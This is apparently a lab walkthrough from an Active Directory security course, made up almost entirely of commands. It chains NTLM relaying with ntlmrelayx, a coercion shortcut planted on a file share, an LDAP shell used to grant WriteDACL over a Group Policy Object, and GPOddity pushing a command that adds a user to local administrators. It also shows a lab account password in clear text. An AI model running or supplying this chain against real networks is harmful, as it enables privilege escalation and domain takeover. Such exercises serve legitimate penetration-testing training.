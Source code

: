 ```

sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.x --http-port '80,8080' -i --no-smb-server
```
- On the student VM, let's create a Shortcut that connects to the ntlmrelayx listener. Go to C:\AD\Tools -> Right Click -> New -> Shortcut. Copy the following command in the Shortcut location:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.x' -UseDefaultCredentials"
```
- name the shortcut as `studentx.lnk` and copy the file 
```
xcopy C:\AD\Tools\studentx.lnk \\dcorp-ci\AI
```
- After a minute we will receive call back on ntlmrelayz
- Connect to the ldap shell started on port 11000. Run the following command on a new Ubuntu WSL session:
```
nc 127.0.0.1 11000
```
- Using this ldap shell, we will provide the studentx user, WriteDACL permissions over Devops Policy {0BF8D01C-1F62-4BDC-958C-57140B67D147}:
```
# write_gpo_dacl student603 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

```
root@dcorp-std603:/mnt/c/AD/Tools/GPOddity# python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student603' --password 'GZHMLPwqc96BeAEU' --command 'net localgroup administra
tors student603 /add' --rogue-smbserver-ip '172.16.100.3' --rogue-smbserver-share 'std603-gp' --dc-ip '172.16.2.1' --smb
-mode none
```
- Leave GPOddity running and from another Ubuntu WSL session, create and share the stdx-gp directory:
```
mkdir /mnt/c/AD/Tools/stdx-gp
cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/stdx-gp
```
- From a command prompt (Run as Administrator) on the student VM, run the following commands to allow 'Everyone' full permission on the stdx-gp share:
```
net share stdx-gp=C:\AD\Tools\stdx-gp /grant:Everyone,Full
icacls "C:\AD\Tools\stdx-gp" /grant Everyone:F /T
```
- Verify if the gPCfileSysPath has been modified for the DevOps Policy. Run the following PowerView command:
```
Get-DomainGPO -Identity 'DevOps Policy'
```
- In 2 min you will have access via elevated cmd
```
winrs -r:dcorp-ci cmd /c "set computername && set username"
```

